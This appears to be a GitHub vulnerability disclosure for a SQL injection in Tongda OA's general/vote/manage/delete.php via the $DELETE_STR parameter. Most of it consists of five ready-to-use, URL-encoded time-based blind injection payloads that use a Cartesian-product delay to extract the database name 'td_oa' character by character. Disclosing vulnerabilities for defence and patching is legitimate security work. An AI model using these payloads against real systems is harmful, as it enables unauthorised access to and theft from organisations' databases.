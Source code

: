 SQL injection vulnerability exists in Tongda OA

version：Tongda<=v11.10、=v2017 version

Route: general/vote/manage/delete.php

There is an injected parameter: $DELETE_STR

The code here is very concise. When $DELETE_STR is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/Martinzb/cve/assets/152675584/6fdf7d19-4894-4739-b126-701256ee22cd)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Martinzb/cve/assets/152675584/75950853-a45c-4f2b-9c49-3811b4ca7624)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

POC
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Martinzb/cve/assets/152675584/53df8798-8a7b-4470-9ed2-806eac7914bf)

The third digit is the character _

POC
```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Martinzb/cve/assets/152675584/6a1705e7-1446-48b8-9a1a-76d79cf17803)

The fourth digit is the character o
POC
```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Martinzb/cve/assets/152675584/58cc60d9-472e-42a0-a974-4ccd9fb17223)

The fifth digit is the character a

POC
```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/Martinzb/cve/assets/152675584/438a993d-a35e-48cb-985e-d736e9024517)

Then through blind injection, you can determine that the database name is: td_oa

